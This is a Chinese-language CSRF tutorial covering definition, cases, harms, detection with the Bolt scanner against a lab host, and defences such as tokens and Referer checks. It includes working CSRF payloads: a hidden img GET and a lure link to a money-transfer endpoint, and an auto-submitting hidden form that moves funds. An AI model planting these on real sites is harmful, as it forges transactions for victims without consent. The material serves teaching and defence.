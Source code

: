 # 大纲

1. 什么是CSRF漏洞？
2. CSRF案例分析 
3. CSRF漏洞挖掘 
4. CSRF漏洞防御

# CSRF

Cross-Site Request Forgery 

跨站请求伪造



第三方网站利用被攻击网站**生效的cookie**,直接对服务器接口发起请求

# CSRF实现流程

![image-20221121145522952](https://image.201068.xyz/assets/image-20221121145522952.png)

# CSRF案例分析

Gmail CSRF漏洞（设置邮件转发） 

Weibo CSRF漏洞（自动关注账号）



# CSRF漏洞危害 

例如：

- 修改账户信息 
- 利用管理员账号，上传木马文件 
- 传播蠕虫病毒（点击、扩散、点击……） 
- 和其他攻击手段配合，实现攻击，比如XSS、SQL注入

## XSS漏洞危害

- 获取cookie，实现冒充身份的后续操作 
- 刷点击 
-  弹广告 
- 传播蠕虫病

## CSRF与XSS区别

![image-20221121145550382](https://image.201068.xyz/assets/image-20221121145550382.png)



# CSRF payload

- 通过**图片**的img src属性，**自动**加载，发起**GET**请求

```html
<img src="http://192.168.31.193:8087/transfer.php?nameid=1102&amount=1000" width= "0" height="0"
```

- 构建一个**超链接**，用户**点击**以后，发起GET请求

```html
<a href= "http://192.168.31.193:8087/transfer.php?amount=1000&to=jiangang" taget="_blank">小姐姐在线视频聊天！！<a/>
```

- 构建一个**隐藏表单**，用户访问，**自动**提交，发起**POST**请求

  ```
  <form action="http://superbank.com/withdraw" method=POST>
  	<input type="hidden" name="account" value="xiaoming" />
  	<input type="hidden" name="amount" value="1000" />
  	<input type="hidden" name="to" value="jiangang" />
  </form>
  <script> document.forms[0].submit(); </script>
  ```

# CSRF漏洞挖掘

## 确定一个**接口地址**有没有CSRF漏洞

从第三方网站直接调用接口可以成功

## 具体怎么操作

抓取正常通信请求的数据包，再请求一次

## 有没有工具可以使用



### Burp Suite

![image-20221121164549560](https://image.201068.xyz/assets/image-20221121164549560.png)

### CSRF Tester

### Bolt

安装

`git clonehttps://github.com/s0md3v/Bolt` 

检测

http://192.168.31.193:8087/transfer.php有没有csrf漏洞

```python
┌──(root㉿guoyx)-[/home/kali/Bolt]
└─# python3 bolt.py -u http://192.168.31.193:8087/transfer.php



     ⚡ BOLT  ⚡
    
/usr/local/lib/python3.10/dist-packages/fuzzywuzzy/fuzz.py:11: UserWarning: Using slow pure-python SequenceMatcher. Install python-Levenshtein to remove this warning
  warnings.warn('Using slow pure-python SequenceMatcher. Install python-Levenshtein to remove this warning')
 ⚡ Phase: Crawling [1/6]
[~] Parsing http://192.168.31.193:8087/transfer.php      [!] Crawled 1 URL(s) and found 1 form(s).          
 ⚡ Phase: Evaluating [2/6]
[+] Insecure form(s) found
[-] http://192.168.31.193:8087/transfer.php [http://192.168.31.193:8087/login.php]
 ⚡ Phase: Comparing [3/6]
[-] No CSRF protection to test
```

发现有csrf,没有做防护。

### 漏洞扫描服务

https://cloud.tencent.com/product/vss

# CSRF防御

## 防御思路

- 区分一个请求是**来源**于自己的前端页面，还是第三方的网站。
-  让自己的前端页面和伪造的**请求变得不一 样**。

## Referer

Referrer：引用页; 引荐; 来源页面 

作用：**跟踪来源**，比如访问统计、广告效果



检查REFERER :

referer里面是否包含了主机名,IP或域名

### referer的不足

1. 可以任意修改 
2. 可以为空

## Token

在请求中加入一些**随机字段**,

第三方不知道也猜不出来,让第三方网站无法伪造请求



1. 用户使用用户名密码登录，**服务端**下发一个**随机的** token字段给客户端，并且服务端把这个字段保存在 **session**中。
2. **客户端**把这个token保存起来，放到**隐藏字段**。 
3. **用户**在登陆状态下，在之后**访问**的时候，都要**携带这个token字段**。
4. **服务端**从session中拿出token值进行**对比**，如果 一致，说明请求合法。
5. 用户退出，**session销毁，token失效**。



### Token不足

例如还存在xss漏洞，csrf和xss组合，用**xss获取到token**,再利用csrf漏洞。

## 二次验证

- 验证码 
- 短信
- 扫码 
- 人脸识别 
- reCAPTCHA（IP验证）

## 浏览器的保护措施 

#### Referrer Policy

`strict-origin-when-cross-origin`

## 个人用户建议 

1. 不要访问不安全的网站 
2. 不要随意点开别人 发给你的链接
